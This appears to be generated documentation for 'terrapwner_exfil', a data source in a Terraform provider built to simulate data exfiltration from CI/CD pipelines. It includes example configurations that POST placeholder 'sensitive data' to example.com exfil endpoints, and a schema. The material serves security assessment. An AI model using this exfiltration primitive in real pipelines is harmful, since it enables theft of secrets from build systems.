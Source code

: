 ```yaml
---
# generated by https://github.com/hashicorp/terraform-plugin-docs
page_title: "terrapwner_exfil Data Source - terrapwner"
subcategory: ""
description: |-
  Simulates or assesses data exfiltration from a Terraform CI/CD pipeline by sending content to a remote HTTP endpoint.
---
```


# terrapwner_exfil (Data Source)

Simulates or assesses data exfiltration from a Terraform CI/CD pipeline by sending content to a remote HTTP endpoint.

## Example Usage

```terraform
terraform {
  required_providers {
    terrapwner = {
      source = "hashicorp.com/edu/terrapwner"
    }
  }
}

provider "terrapwner" {}

# Example 1: Basic usage with custom timeout
data "terrapwner_exfil" "example1" {
  content  = "This is sensitive data"
  endpoint = "http://example.com/exfil"
  timeout  = 5 # 5 seconds timeout
}

# Example 2: Using default values
data "terrapwner_exfil" "example2" {
  content  = "Another sensitive data"
  endpoint = "http://example.com/exfil"
  # Using default timeout (10 seconds)
}

# Example 3: Testing failure scenarios with short timeout
data "terrapwner_exfil" "example3" {
  content       = "Data that won't be sent"
  endpoint      = "http://slow.example.com/exfil"
  timeout       = 2 # 2 seconds timeout (will cause timeout error)
  fail_on_error = true
}

# Output all attributes for each data source
output "example1_exfil" {
  description = "All attributes from the example1 exfiltration"
  value       = data.terrapwner_exfil.example1
}

output "example2_exfil" {
  description = "All attributes from the example2 exfiltration"
  value       = data.terrapwner_exfil.example2
}

output "example3_exfil" {
  description = "All attributes from the example3 exfiltration"
  value       = data.terrapwner_exfil.example3
}
```

<!-- schema generated by tfplugindocs -->
## Schema

### Required

- `content` (String) The string content to exfiltrate.
- `endpoint` (String) The full URL to send the POST request to.

### Optional

- `expect_success` (Boolean) Whether a failed exfil is expected or not.
- `timeout` (Number) Timeout in seconds for the HTTP request (default: 10).

### Read-Only

- `fail_reason` (String) If failed, stores the error message.
- `response_code` (Number) HTTP response status code.
- `success` (Boolean) True if HTTP response code is 2xx.
